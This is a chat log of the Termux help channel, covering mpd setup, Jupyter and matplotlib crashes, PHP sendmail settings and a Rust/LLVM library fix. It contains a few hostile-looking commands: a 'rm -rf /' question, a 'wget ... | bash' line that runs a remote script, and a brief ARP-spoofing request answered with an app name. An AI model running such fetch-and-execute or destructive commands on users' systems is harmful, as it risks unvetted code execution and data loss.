2017-09-11 06:32:13	frumpylava	Auxilus: Scroll up and read the conversation.

2017-09-11 06:32:29	frumpylava	It was all about that.

2017-09-11 06:32:46	gitter	(Auxilus) 'k

2017-09-11 06:32:55	frumpylava	I'm eating my curry now.

2017-09-11 06:35:17	BrainDamage	is it made out of lambda expressions?

2017-09-11 06:36:05	frumpylava	BrainDamage: No. Rice.

2017-09-11 06:36:15	gitter	(Auxilus) Curry?

2017-09-11 06:36:26	gitter	(Auxilus) Like indian curry?

2017-09-11 06:36:39	frumpylava	@Auxilus Thai Curry.

2017-09-11 06:36:58	BrainDamage	is it possible to have termux boot not spawn an interactive sessions?

2017-09-11 06:37:03	BrainDamage	-s

2017-09-11 06:37:14	gitter	(Auxilus) K

2017-09-11 06:37:14	BrainDamage	it partially defeats the point

2017-09-11 06:38:05	gitter	(Auxilus) Frumpylava : do you know how to use virtual termux inside termux using proot?

2017-09-11 06:38:23	gitter	(Auxilus) Can we have termuxfs like kalifs?

2017-09-11 06:38:57	frumpylava	@Auxilus: Yes. It is that: https://github.com/Neo-Oli/chrooted-termux

2017-09-11 06:39:29	gitter	(Auxilus) Nice!

2017-09-11 06:39:45	gitter	(Auxilus) I was looking for that for a while..

2017-09-11 06:40:46	fornwall	frumpylava: is #1252 (garbage onscreen with weechat/ncmpcpp/mutt) working ok for you now with the latest ncurses version (6.0.20170909), or is it still a problem?

2017-09-11 06:41:19	gitter	(Auxilus) Frumpylava : Can we use su in that fs

2017-09-11 06:41:22	gitter	(Auxilus) ?

2017-09-11 06:43:12	frumpylava	fornwall: It's too soon to tell, I haven't seen any garbage since updating this morning, but I haven't used the app a lot today. Is there a reason you suspect that the update might have fixed it?

2017-09-11 06:43:43	frumpylava	@Auxilus No idea. I have never tried it (am not rooted).

2017-09-11 06:45:14	fornwall	frumpylava: yes, the ncurses mailing list mentions screen corruption fixes, and it has fixed the problem with weechat I hit

2017-09-11 06:46:28	frumpylava	fornwall: Well, I did test it with ncmpcpp and didn't see anything. Normally after a few seconds there would be at least some corruption.

2017-09-11 06:46:46	fornwall	ncurses is a rather strange package. very widely used, old and rather hard to follow codebase and only one active developer

2017-09-11 06:46:51	fornwall	frumpylava: great!

2017-09-11 06:48:12	fornwall	the whole point with ncurses and terminfo is to work around differences and bugs in terminals. it feels a lot like what web development did with browser sniffing 10+ years ago

2017-09-11 06:51:30	frumpylava	fornwall: It's all just hacks on 30 year old tech.

2017-09-11 06:55:50	gitter	(its-pointless) ;{'

2017-09-11 06:56:36	frumpylava	@its-pointless is that an emoticon or part of some JSON?

2017-09-11 06:56:36	BrainDamage	the terminal protocol by itself, it's rather shit

2017-09-11 06:57:16	BrainDamage	the ambiguity over escape sequences, the inlining of data and formatting, etc

2017-09-11 06:57:29	frumpylava	Indeed. But like with email, we got to stick with what we've got

2017-09-11 07:01:01	gitter	(Auxilus) frumpylava, im getting connection refused on ncmpcpp

2017-09-11 07:02:31	frumpylava	@Auxilus have Does mpd --verbose --no-daemon give any output?

2017-09-11 07:04:15	gitter	(Auxilus) Wait

2017-09-11 07:04:16	gitter	(Auxilus) ...

2017-09-11 07:04:45	gitter	(Auxilus) Yeah..

2017-09-11 07:04:56	gitter	(Auxilus) config_file: loading file /data/data/com.termux/files/usr/etc/mpd.conf

2017-09-11 07:04:56	gitter	(Auxilus) vorbis: Xiph.Org libVorbis 1.3.5

2017-09-11 07:04:56	gitter	(Auxilus) opus: libopus 1.2.1

2017-09-11 07:04:56	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59b66dd6177fb9fe7ea7b2e6]

2017-09-11 07:05:41	gitter	(Auxilus) But still connection refused on ncmpcpp

2017-09-11 07:06:26	frumpylava	what about `mpc status`?

2017-09-11 07:07:07	gitter	(Auxilus) mpc or mpd?

2017-09-11 07:07:13	frumpylava	mpc

2017-09-11 07:07:24	frumpylava	mpd is the daemon and mpc is the client.

2017-09-11 07:07:48	gitter	(Auxilus) K

2017-09-11 07:08:16	gitter	(Auxilus) Connection refused

2017-09-11 07:08:31	frumpylava	and mpd is still running?

2017-09-11 07:08:41	gitter	(Auxilus) Yeah

2017-09-11 07:09:28	frumpylava	Do you have any previous config? Try deleting ~/.mpd and then restarting mpd --verbose --no-daemon

2017-09-11 07:09:29	gitter	(Auxilus) Wait.. Ill reinstall it..

2017-09-11 07:10:54	gitter	(Auxilus) Not working

2017-09-11 07:12:14	gitter	(Auxilus) Still got the error

2017-09-11 07:12:50	frumpylava	try: mpd --verbose --no-daemon --stdout

2017-09-11 07:12:59	frumpylava	It should give more information

2017-09-11 07:13:51	gitter	(Auxilus) K

2017-09-11 07:14:47	gitter	(Auxilus) auxilus ~ > mpd --verbose --no-daemon --stdout

2017-09-11 07:14:47	gitter	(Auxilus) config_file: loading file /data/data/com.termux/files/usr/etc/mpd.conf

2017-09-11 07:14:47	gitter	(Auxilus) vorbis: Xiph.Org libVorbis 1.3.5

2017-09-11 07:14:47	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59b67024b59d55b823e07dd0]

2017-09-11 07:16:37	frumpylava	hmm... weird. Try "pkill --signal 9 mpd" and restart it again.

2017-09-11 07:30:58	smellysocks	Importing matplotlib in jupyter kills my kernel everytime and then it restarts automatically. Any solution?

2017-09-11 07:44:18	frumpylava	smellysocks: What phone do you have?

2017-09-11 07:44:58	gitter	(Auxilus) K wait..

2017-09-11 07:45:35	gitter	(Auxilus) Just mpd or mpd --verbose --no-daemon

2017-09-11 07:45:41	frumpylava	--stdout

2017-09-11 07:45:49	gitter	(Auxilus) K

2017-09-11 07:45:53	frumpylava	mpd --verbose --no-daemon --stdout

2017-09-11 07:46:38	frumpylava	smellysocks: Could this be related? https://github.com/termux/termux-app/issues/129

2017-09-11 07:46:39	gitter	(Auxilus) auxilus ~ > mpd --verbose --no-daemon --stdout

2017-09-11 07:46:39	gitter	(Auxilus) config_file: loading file /data/data/com.termux/files/usr/etc/mpd.conf

2017-09-11 07:46:39	gitter	(Auxilus) vorbis: Xiph.Org libVorbis 1.3.5

2017-09-11 07:46:39	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59b6779dcfeed2eb65f5a18f]

2017-09-11 07:47:26	frumpylava	Still doesn't work?

2017-09-11 07:47:27	gitter	(Auxilus) auxilus ~ > mpc status

2017-09-11 07:47:27	gitter	(Auxilus) mpd error: Connection refused

2017-09-11 07:47:47	frumpylava	Is there a file at $PREFIX/tmp/mpd.socket?

2017-09-11 07:48:48	smellysocks	its android 5.0

2017-09-11 07:49:00	frumpylava	smellysocks: Is it a sony phone?

2017-09-11 07:49:02	gitter	(Auxilus) There is `mpd.socket=`

2017-09-11 07:49:06	smellysocks	i'm using python3.6.2 right now

2017-09-11 07:49:21	smellysocks	frumpylava: nope. vivo. chinese

2017-09-11 07:50:00	frumpylava	smellysocks: hmm... can you give me the simplest steps to reproduce? I have never used jupyter or mathplotlib, what do I need to install.

2017-09-11 07:50:00	smellysocks	is it of any help?

2017-09-11 07:50:23	smellysocks	juz a moment....

2017-09-11 07:50:48	smellysocks	try this: http://www.leouieda.com/blog/scipy-on-android.html

2017-09-11 07:51:01	gitter	(Auxilus) There is mpd.socket

2017-09-11 07:51:47	frumpylava	smellysocks: alright. trying it now

2017-09-11 07:52:27	smellysocks	sure

2017-09-11 08:00:45	frumpylava	smellysocks: hmm... that sure takes a long time to install.

2017-09-11 08:01:03	live_the_dream	yeah numpy takes ages

2017-09-11 08:01:20	live_the_dream	why do you think I distribute it?

2017-09-11 08:02:32	frumpylava	live_the_dream: yeah, you're right. I'll install it through that.

2017-09-11 08:09:14	frumpylava	smellysocks: Maybe, in the meantime you can try to run and /exit weechat and see if that also crashes your kernel.

2017-09-11 08:09:36	frumpylava	@Auxilus I have no idea why it doesn't work for you.

2017-09-11 08:17:13	qxin	Hello

2017-09-11 08:17:25	frumpylava	qxin: hi

2017-09-11 08:19:00	gitter	(Auxilus) frumpylava : I see you've protected some pages on wiki

2017-09-11 08:19:37	frumpylava	@Auxilus: Only the main page.

2017-09-11 08:20:06	gitter	(Auxilus) K

2017-09-11 08:24:18	qxin	What happends if im in root mode in termux and do rm -rf / on my phone?

2017-09-11 08:24:43	frumpylava	qxin: Sounds like a good way to brick your phone.

2017-09-11 08:25:35	gitter	(Auxilus) Easy way to blow up some bucks..

2017-09-11 08:25:53	qxin	okay lol

2017-09-11 08:25:58	qxin	Its good that i didnt do it

2017-09-11 08:26:20	BrainDamage	actually if you're using gnu utils you can't do that

2017-09-11 08:26:25	qxin	Do you know how i can arp spoof my whole network?

2017-09-11 08:26:27	BrainDamage	you'd need to pass --no-preserve-root

2017-09-11 08:26:51	qxin	Yes

2017-09-11 08:27:22	gitter	(Auxilus) There is an app called Intercepter-NG

2017-09-11 08:28:06	frumpylava	BrainDamage: Well if you're in regular "su" you wouldn't have gnu rm, would you? You'd need to be in "tsu" and have coreutils installed, right?

2017-09-11 08:29:52	BrainDamage	by default, you're correct, however, i prefer not to assume, he could've installed coreutils system wide replacing busybox symlinks

2017-09-11 08:30:47	frumpylava	BrainDamage: Maybe he could try it and see what happens? ;)

2017-09-11 08:31:02	gitter	(Auxilus) 😂

2017-09-11 08:31:27	frumpylava	smellysocks: Oh god it's still installing.

2017-09-11 08:31:38	smellysocks	yeah its too slow

2017-09-11 08:31:58	smellysocks	anyway i had problem running jupyter

2017-09-11 08:32:03	BrainDamage	oh sure, i'm all for some experimentation at someone else's expense

2017-09-11 08:32:25	smellysocks	had to uninstall pyzmq and reinstsll it to get it working

2017-09-11 08:32:38	gitter	(infernix) so is anyone else using su(do) within termux?

2017-09-11 08:33:12	gitter	(infernix) because I'd really like to fix ctrl-c killing the su shell

2017-09-11 08:33:24	gitter	(infernix) but I'm afraid that's a no go with termux

2017-09-11 08:33:45	frumpylava	ctrl-C kills the whole su shell?

2017-09-11 08:33:58	gitter	(infernix) does here. on oreo, using magisk su

2017-09-11 08:35:06	frumpylava	Hmm... in termux su is really just a script that points to the su binary of your rom, I don't think there is anything Termux can do to prevent that. It sounds like a problem with your su binary.

2017-09-11 08:36:35	gitter	(Auxilus) Yo

2017-09-11 08:36:48	gitter	(Auxilus) There is some wiered stuff in my terminal..

2017-09-11 08:36:50	gitter	(Auxilus) https://asciinema.org/a/8NxrOjYHoBfVDGMg3Jhjlw4lj

2017-09-11 08:36:54	gitter	(infernix) right, which is why I'm asking whether if anyone else has the same issue

2017-09-11 08:37:09	infernix	i had it on an older android release

2017-09-11 08:37:12	gitter	(Auxilus) Happened when i executed `mkdir wget`

2017-09-11 08:37:29	infernix	but could fix that by just going to a loopback mounted debian image

2017-09-11 08:37:47	infernix	in oreo, loop isn't compiled in the kernel any longer, whichis how i ended up with termux

2017-09-11 08:39:26	frumpylava	@Auxilus that's weird.  Is it a file? does ls -l show it as well?

2017-09-11 08:39:58	gitter	(Auxilus) Wait..

2017-09-11 08:40:14	gitter	(Auxilus) Yeah it does

2017-09-11 08:40:27	gitter	(Auxilus) I can't even remove it...

2017-09-11 08:41:21	frumpylava	Auxilus: You probably have to escape it right. Try to use completion. Otherwise try ranger or mc.

2017-09-11 08:41:46	gitter	(Auxilus) Whats ranger, mc?

2017-09-11 08:42:17	frumpylava	tui file managers. apt install ranger;apt install mc

2017-09-11 08:42:35	frumpylava	They would take care of escaping it right.

2017-09-11 08:43:02	gitter	(Auxilus) Wait I'll see

2017-09-11 08:43:28	frumpylava	In ranger, select the file and then press dD+Enter do delete it.

2017-09-11 08:44:32	gitter	(Auxilus) dD ?

2017-09-11 08:44:41	smellysocks	how do you run ranger?

2017-09-11 08:45:05	gitter	(Auxilus) Ty

2017-09-11 08:45:13	gitter	(Auxilus) frumpylava : it works..

2017-09-11 08:45:23	gitter	(Auxilus) smellysocks

2017-09-11 08:45:29	gitter	(Auxilus) Just type ranger

2017-09-11 08:46:05	smellysocks	but that gives me an ipython shell

2017-09-11 08:46:22	smellysocks	perhaps the one running parallely

2017-09-11 08:46:23	smellysocks	in vim

2017-09-11 08:47:39	frumpylava	smellysocks: jupyter finally installed. What do I do now to reproduce the error

2017-09-11 08:51:56	frumpylava	Hmmm perhaps smellysocks means something else when he says it kills the kernel.

2017-09-11 08:52:25	frumpylava	Jupyter seems to have things called kernels, which are like snippets.

2017-09-11 08:52:55	frumpylava	smellysocks: jupyter finally installed. What do I do now to reproduce the error

2017-09-11 08:53:15	smellysocks	juz run jupyter notebook

2017-09-11 08:53:34	smellysocks	and then try to import matplotlib in a new file

2017-09-11 08:56:01	frumpylava	smellysocks: Hmm... no that seems to work for me. It also occurs to me now that you and I might have different things in mind, when you said it kills your kernel and restarts. I didn't realise there where things called kernels in jupyter.

2017-09-11 08:56:33	smellysocks	are you able to plot graphs with it?

2017-09-11 08:56:59	frumpylava	smellysocks: I don't know. Can you paste an example on what to run?

2017-09-11 08:57:40	smellysocks	try :  import matpltlib.pyplot as plt

2017-09-11 08:58:00	smellysocks	plt.plot(1,2,3)

2017-09-11 08:58:07	smellysocks	plt.show()

2017-09-11 08:58:31	smellysocks	sorry, that was matplotlib.pyplot

2017-09-11 08:59:22	frumpylava	smellysocks: that gives me the error "ValueError: third arg must be a format string", but prints a an empty graph.

2017-09-11 09:00:16	smellysocks	try like plt.plot([1,2,3,4,5])

2017-09-11 09:01:05	frumpylava	smellysocks: Yeah, that prints a nice linear graph.

2017-09-11 09:01:23	smellysocks	are you on a tablet?

2017-09-11 09:01:38	frumpylava	No, a phone.

2017-09-11 09:01:48	smellysocks	hm..

2017-09-11 09:02:57	smellysocks	its pretty odd. my ipython kernel gives an error that it has died and it'll restart automatically

2017-09-11 09:03:22	smellysocks	you think reinstalling it will work?

2017-09-11 09:03:41	frumpylava	smellysocks: What happens put that code into a python file and run it?

2017-09-11 09:03:53	smellysocks	i'll try

2017-09-11 09:05:53	frumpylava	@Auxilus: I'm interessted, what do you intend to do with chrooted-termux?

2017-09-11 09:07:02	gitter	(Auxilus) I just need it to try our stuff without messing with my host termux data

2017-09-11 09:07:29	smellysocks	it seems to run. yeah

2017-09-11 09:07:35	smellysocks	thanks a lot man

2017-09-11 09:08:12	gitter	(Auxilus) I think we can use su in chroot without root, cz in your chrootfs i can browse through `/`

2017-09-11 09:09:27	frumpylava	Auxilus, but why would you need to? You can already modify all files without su and even sudo wouldn't allow you to access things like /dev/ directly.

2017-09-11 09:10:05	frumpylava	You can even launch proot -0 to pretend that you are root.

2017-09-11 09:10:19	gitter	(Auxilus) In host?

2017-09-11 09:10:31	gitter	(Auxilus) proot -0?

2017-09-11 09:10:41	gitter	(Auxilus) Or in chrootfs?

2017-09-11 09:10:48	frumpylava	yeah. You'd have to edit the start.sh and add -0 to the list of arguments

2017-09-11 09:11:22	gitter	(Auxilus) Basically i need it to do nmap stuff that needs root

2017-09-11 09:11:27	gitter	(Auxilus) Like os detection etc

2017-09-11 09:11:46	frumpylava	I'd be surprised if it works.

2017-09-11 09:12:21	gitter	(Auxilus) Where to add -0?

2017-09-11 09:13:00	gitter	(Auxilus) I mean where in start.sh

2017-09-11 09:13:57	frumpylava	Auxilus after line 3 add commad+=" -0"

2017-09-11 09:14:45	gitter	(Auxilus) Works

2017-09-11 09:14:52	gitter	(Auxilus) I got hash prompt

2017-09-11 09:15:41	gitter	(Auxilus) Lemme see if i can exec root commands

2017-09-11 09:16:49	gitter	(Auxilus) Though i got

2017-09-11 09:16:51	gitter	(Auxilus) W: No sandbox user '_apt' on the system, can not drop privileges

2017-09-11 09:17:01	gitter	(Auxilus) But pkg is installed

2017-09-11 09:18:26	gitter	(Auxilus) frumpylava

2017-09-11 09:18:36	gitter	(Auxilus) I got error saying `route_dst_netlink: can't find interface "lo"`

2017-09-11 09:24:58	frumpylava	@Auxilus I told you it probably wouldn't work. It would be some serious privilege escalation if you could gain root access to the interfaces using proot.

2017-09-11 09:26:13	gitter	(Auxilus) Btw why mpd ain't working?

2017-09-11 09:26:31	gitter	(Auxilus) Is it the port issue?

2017-09-11 09:27:30	frumpylava	@Auxilus no idea. mpd communicates over sockets not over ports by default, so it shouldn't be an issue. And mpd --no-daemon --verbose --stdout provides no clue or error message.

2017-09-11 09:32:49	gitter	(Auxilus) frumpylava : how do I get https://glow.li/loop/?file=cava.mp4

2017-09-11 09:33:10	frumpylava	Auxilus Step 1: run mpd

2017-09-11 09:33:23	frumpylava	step 2: mpc enable 3

2017-09-11 09:33:29	frumpylava	step 3: cava

2017-09-11 09:33:53	gitter	(Auxilus) 😯🙁😢

2017-09-11 09:34:38	frumpylava	@Auxilus what happens when you just run "mpd" without any argument?

2017-09-11 09:34:52	gitter	(Auxilus) Gives no error

2017-09-11 09:35:13	frumpylava	Is it running then? pgrep mpd

2017-09-11 09:36:35	gitter	(Auxilus) auxilus ~ > mpd

2017-09-11 09:36:35	gitter	(Auxilus) starting mpd the music player daemon

2017-09-11 09:36:35	gitter	(Auxilus) exception: Failed to open /data/data/com.termux/files/home/.mpd/database: No such file or directory

2017-09-11 09:37:27	gitter	(Auxilus) ?

2017-09-11 09:37:36	gitter	(Auxilus) I reinstalled mpd

2017-09-11 09:38:08	frumpylava	I think that is normal on first run.

2017-09-11 09:38:35	gitter	(Auxilus) Its running now

2017-09-11 09:38:49	gitter	(Auxilus) Pgrep shows 2 numbers

2017-09-11 09:38:58	frumpylava	What does mpc status show now?

2017-09-11 09:39:24	gitter	(Auxilus) Crap

2017-09-11 09:39:27	gitter	(Auxilus) Connection refused

2017-09-11 09:40:49	gitter	(Auxilus) Here's  .mpd/state

2017-09-11 09:40:51	gitter	(Auxilus) sw_volume: 100                                                          audio_device_state:1:OpenSLES output                                    audio_device_state:0:OpenAL output                                      audio_device_state:0:ncmpcpp visualizer                                 state: stop                                                             random: 0

2017-09-11 09:40:51	gitter	(Auxilus) repeat: 0

2017-09-11 09:40:51	gitter	(Auxilus) single: 0

2017-09-11 09:40:51	gitter	(Auxilus) consume: 0                                                              crossfade: 0                                                            mixrampdb: 0.000000                                                     mixrampdelay: -1.000000                                                 playlist_begin                                                          playlist_end

2017-09-11 09:41:23	gitter	(Auxilus) Ooooo

2017-09-11 09:41:24	frumpylava	can you try setting: export MPD_HOST="/data/data/com.termux/files/usr/tmp/mpd.socket"

2017-09-11 09:41:48	gitter	(Auxilus) Now ncmpcpp is connected to mpd.socket

2017-09-11 09:41:52	gitter	(Auxilus) But shows nothing

2017-09-11 09:42:22	frumpylava	Well, by default the music dir is /sdcard/Music do you have music there?

2017-09-11 09:42:26	frumpylava	Press 2 to show your library

2017-09-11 09:42:27	gitter	(Auxilus) Yes

2017-09-11 09:42:30	gitter	(Auxilus) K

2017-09-11 09:42:39	gitter	(Auxilus) And how do i quit?

2017-09-11 09:42:45	frumpylava	q

2017-09-11 09:42:59	gitter	(Auxilus) Yeeeee

2017-09-11 09:43:08	gitter	(Auxilus) Now how do I use cava?

2017-09-11 09:44:16	gitter	(Auxilus) ??

2017-09-11 09:44:27	frumpylava	You run "cava"

2017-09-11 09:44:40	gitter	(Auxilus) Yeah

2017-09-11 09:44:46	gitter	(Auxilus) But it shows flat line

2017-09-11 09:44:58	frumpylava	Well, you need music playing

2017-09-11 09:45:37	gitter	(Auxilus) I had

2017-09-11 09:45:54	frumpylava	Did you run "mpc enable 3"?

2017-09-11 09:46:06	gitter	(Auxilus) No, wait..

2017-09-11 09:46:24	gitter	(Auxilus) auxilus ~ > mpc enable 3

2017-09-11 09:46:24	gitter	(Auxilus) mpd error: Connection refused

2017-09-11 09:46:48	frumpylava	try setting the MPD_HOST again.

2017-09-11 09:47:08	gitter	(Auxilus) Do i have to run it before starting mpd or ncmpcpp?

2017-09-11 09:47:16	frumpylava	Maybe you can add that to your .bashrc.

2017-09-11 09:47:35	frumpylava	I think only mpc may require this.

2017-09-11 09:47:49	gitter	(Auxilus) No i mean not export

2017-09-11 09:48:03	gitter	(Auxilus) Mpc enable 3

2017-09-11 09:48:10	frumpylava	I think it's because when mpc was packaged mpd wasn't available and it was only used to connect to remote mpd's

2017-09-11 09:48:17	frumpylava	after running mpd

2017-09-11 09:48:28	frumpylava	you can also enable it at "7" in ncmpcpp

2017-09-11 09:49:06	frumpylava	It enables ncmpcpp visualizer at 8, but also makes cava work

2017-09-11 09:50:03	gitter	(Auxilus) Ah, works

2017-09-11 09:50:23	gitter	(Auxilus) I dont want mpd to resume the song

2017-09-11 09:50:31	gitter	(Auxilus) When in restart it..

2017-09-11 09:51:20	frumpylava	Auxilus copy $PREFIX/etc/mpd.conf to ~/.mpd/mpd.conf.

2017-09-11 09:51:58	frumpylava	In there you can set restore_paused "yes"

2017-09-11 09:52:21	gitter	(Auxilus) K

2017-09-11 09:55:06	gitter	(Auxilus) mpd has its visualizer?

2017-09-11 09:55:20	gitter	(Auxilus) Oooo

2017-09-11 09:55:21	gitter	(Auxilus) Coool man

2017-09-11 09:55:58	smellysocks	i tried a lot but import matplotlib.pyplot kills kernel while import matplotlib works.

2017-09-11 09:56:15	smellysocks	what do you ppl think?

2017-09-11 09:57:05	gitter	(jmikedupontcell_twitter) howdy, am looking to get haskell running, having problems running static elf binary it is treating as shell.

2017-09-11 09:57:58	gitter	(jmikedupontcell_twitter) le stack                                                                            stack: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped

2017-09-11 09:57:58	gitter	(jmikedupontcell_twitter) $

2017-09-11 10:04:42	smellysocks	it seems the error is in pyplot

2017-09-11 10:05:40	smellysocks	trying plt = matplotlib.pyplot  gives error 'matplotlib has no attribute pyplot'

2017-09-11 10:08:35	smellysocks	anyone able to reproduce this?

2017-09-11 11:39:10	nejni-marji	Is there any good way to get access to arrow keys that isn't volume_up+wasd?

2017-09-11 11:40:57	frumpylava	nejni-marji: hacker keyboard or swiftkeys

2017-09-11 11:41:16	nejni-marji	okay, thanks

2017-09-11 11:49:39	gitter	(Auxilus) SwiftKey = best ( ty to frumpylava )

2017-09-11 12:14:16	gitter	(suryapoo) Guys!!!

2017-09-11 12:14:26	gitter	(suryapoo) Does php for termux supports mail sendingg?

2017-09-11 12:14:47	gitter	(suryapoo) like can i use mail() function

2017-09-11 12:15:23	gitter	(Auxilus) There is a package called `mutt`

2017-09-11 12:15:32	gitter	(Auxilus) That does mailing stuff

2017-09-11 12:16:50	gitter	(suryapoo) Oooh

2017-09-11 13:54:28	u0_a164	@fornwall

2017-09-11 13:54:54	u0_a164	I really have no idea how to add cross compilation support in https://github.com/termux/termux-packages/pull/1425

2017-09-11 14:07:34	frumpylava	@suryapoo: sendmail_path = /data/data/com.termux/files/usr/bin/applets/sendmail -t -f <email> -S <mailserver>:<port> -au<login-name> -ap<password>

2017-09-11 14:07:51	frumpylava	@suryapoo if you add this to your php.ini you can send emails with php

2017-09-11 14:09:50	smellysocks	frumpylava: you know how to uninstall matplotlib

2017-09-11 14:10:44	frumpylava	smellysocks: uninstall? I guess pip uninstall matplotlib

2017-09-11 14:11:57	smellysocks	hell yeah it worked this time. last time perhaps i typed it wrong

2017-09-11 14:13:18	smellysocks	btw what phone and android are you using?

2017-09-11 14:15:21	frumpylava	xperia x android 7

2017-09-11 14:17:08	smellysocks	does it make a big difference, android version, for termux?

2017-09-11 14:19:18	gitter	(mklein994) @vishalbiswas rust is broken after the clang update. Could you rebuild it linking to llvm 5?

2017-09-11 14:20:55	smellysocks	matplotlib.pyplot is still giving me errors saying 'invalid address or address of corrupt block 0x40 passed to dlfree'

2017-09-11 14:21:44	smellysocks	is it broken? do i need a fresh download and install

2017-09-11 14:49:17	TheFox_	hi

2017-09-11 14:49:34	TheFox_	could you help me?

2017-09-11 14:50:05	TheFox_	is there some utils for x10 protocol?

2017-09-11 14:50:25	TheFox_	i mean controlling over x10

2017-09-11 15:48:05	gitter	(rnauber) Hi, I created a script for installing the web-based IDE/editor codiad locally:

2017-09-11 15:48:44	gitter	(rnauber) `wget https://gist.githubusercontent.com/rnauber/9f579d1480db4cc5a9a3c97c00c52fb9/raw/75b25c246c29505a91d9c5b9264ea8ab70ee1ca5/install_codiad.sh -O- | bash`

2017-09-11 15:53:02	gitter	(rnauber) https://ibb.co/nwC8ta

2017-09-11 15:53:50	gitter	(rnauber) could someone please add this to the wiki at editor / IDE

2017-09-11 15:58:23	gitter	(sdrausty) https://wiki.termux.com/wiki/IDEs

2017-09-11 16:02:58	gitter	(sdrausty) https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-11 16:03:46	gitter	(rnauber) the former would be ok :)

2017-09-11 16:04:19	gitter	(rnauber) @sdrausty do you have wiki access?

2017-09-11 16:30:44	gitter	(sdrausty) @rnauber not to wikipedia.org

2017-09-11 16:35:16	gitter	(sdrausty) Add as in this https://wiki.termux.com/wiki/IDEs ?

2017-09-11 16:46:49	gitter	(sdrausty) @rnauber done https://wiki.termux.com/wiki/IDEs#Codiad is there a want to add codiad to editors too?

2017-09-11 17:46:55	gitter	(sdrausty) @rnauber done https://wiki.termux.com/wiki/Text_Editors#Codiad Thank you for enabling codiad in Termux 💪🙂

2017-09-11 21:17:51	gitter	(suryapoo) @Frumpylava...will try that mate ,thanks!!!

2017-09-11 22:08:54	live_the_dream	just relized new clang means i have to do update rust

2017-09-11 22:08:57	live_the_dream	damn it

2017-09-11 22:37:41	live_the_dream	oh no llvm-5 support ?

2017-09-12 00:11:42	gitter	(mklein994) live_the_dream:  do you mean?

2017-09-12 00:12:01	live_the_dream	rustc doesn't work with llvm-5

2017-09-12 00:12:03	live_the_dream	yet

2017-09-12 00:12:29	live_the_dream	im upping old libLLVM-4.0.so so it will work

2017-09-12 00:12:32	gitter	(mklein994) Oh. Is there an issue I can monitor?

2017-09-12 00:12:46	gitter	(mklein994) How'd you find that out?

2017-09-12 00:13:56	gitter	(mklein994) Is it https://github.com/rust-lang/rust/issues/43370 by chance?

2017-09-12 00:14:54	live_the_dream	yeah

2017-09-12 00:17:50	live_the_dream	you just need old libLLVM-4.0.so for rustc to stilll work

2017-09-12 00:20:46	gitter	(mklein994) Yeah; um, is there a way to get both in parallel? I upgraded everything already, and there might be some packages built on the new one. You wouldn't have a package on your repo for that, would you?

2017-09-12 00:21:18	live_the_dream	yes

2017-09-12 00:21:33	live_the_dream	im uping the correct lib now

2017-09-12 00:22:19	live_the_dream	apt update; apt install libllvm-4so

2017-09-12 00:23:43	live_the_dream	also try out package fixedshe .... it uses wrapper so you don't have to do termux-fixshebang it will preload a lib from rkeene ...

2017-09-12 00:25:35	gitter	(mklein994) What's your repo url? I know the rest of the syntax, I just want to make sure.

2017-09-12 00:26:24	gitter	(mklein994) I'm on arm, if that helps.

2017-09-12 00:27:44	live_the_dream	https://github.com/its-pointless/its-pointless.github.io/raw/master/files/dists/termux/extras/binary-arm/libllvm-4so_1_arm.deb

2017-09-12 00:28:56	gitter	(mklein994) Oh nevermind; found it: its-pointless/... stuff.

2017-09-12 00:30:51	gitter	(mklein994) Thanks! That worked.

2017-09-12 00:41:19	live_the_dream	i think /bin/bash /bin/sh and /usr/bin/env are what 99% of shebangs right?

2017-09-12 00:55:12	live_the_dream	someone submitted an actual decent working command line bitcoin  client

2017-09-12 00:55:17	live_the_dream	its 90 meg downlaod ...

2017-09-12 02:53:51	frumpylava	live_the_dream: What command line bitcoin client?

2017-09-12 03:00:19	live_the_dream	snot a bitcoin client monero

2017-09-12 03:01:36	frumpylava	live_the_dream: What? A monero client?

2017-09-12 03:01:40	live_the_dream	yeah

2017-09-12 03:02:06	live_the_dream	https://github.com/termux/termux-packages/issues/1438

2017-09-12 03:05:34	frumpylava	that's really interessting.

2017-09-12 03:21:47	gitter	(Grimler91) live_the_dream: maybe `/usr/bin/python{,3}` as well?

2017-09-12 03:23:52	live_the_dream	yeah

2017-09-12 03:25:14	live_the_dream	could do it so all #/bin becomes $PREFIX/bin etc

2017-09-12 03:40:25	gitter	(suryapoo) Guys

2017-09-12 03:40:37	gitter	(suryapoo) Where can i find the php.ini file

2017-09-12 03:49:31	frumpylava	@suryapoo I think there is none by default. You have to create one and then run php with the "-c path/to/php.ini" option.

2017-09-12 03:50:07	gitter	(suryapoo) Ohhhh

2017-09-12 03:50:12	gitter	(suryapoo) Thanks man

2017-09-12 03:50:38	gitter	(suryapoo) Buddy can you guide me through how to setup sending mails on PHP

2017-09-12 03:50:38	gitter	(suryapoo)

2017-09-12 03:52:59	frumpylava	How do you start php right now? Do you use nginx, apache2, lighttpd, httpd, php --server, php from the command-line?

2017-09-12 03:54:04	gitter	(suryapoo) php -S localhost :port

2017-09-12 03:54:09	gitter	(suryapoo) Oh shit

2017-09-12 03:54:12	gitter	(suryapoo) I mean port

2017-09-12 03:55:35	frumpylava	alright. In that case it should be very simple. Create a file named php.ini in ~/.php/php.ini.

2017-09-12 03:56:03	frumpylava	Add this to that file:  sendmail_path = /data/data/com.termux/files/usr/bin/applets/sendmail -t -f <email> -S <mailserver>:<port> -au<login-name> -ap<password>

2017-09-12 03:56:25	frumpylava	start php with php-S localhost:port -c ~/.php/php.ini

2017-09-12 03:57:01	frumpylava	You need to put in an external mailserver though, because termux has no smtp programm.

2017-09-12 03:58:16	frumpylava	So all the email would come from your personal account on that mailserver.

2017-09-12 04:00:17	gitter	(suryapoo) Ohhhh...okay ..thanks man

2017-09-12 04:00:37	gitter	(suryapoo) How to setup an external mail server ?

2017-09-12 04:03:05	frumpylava	You can't do that with termux. You'd have to set it up on a different device. But you can also use things like gmail or other 3rd party email providers. I used gmail for a while.

2017-09-12 04:04:34	gitter	(suryapoo) Ohhhh..okay

2017-09-12 04:04:44	gitter	(suryapoo) I have been using node for a while

2017-09-12 04:04:52	gitter	(suryapoo) Great support for node on termux

2017-09-12 04:05:04	gitter	(suryapoo) Almost every module gets installed

2017-09-12 04:05:22	gitter	(suryapoo) But it's kind of complex if u r a beginner like me

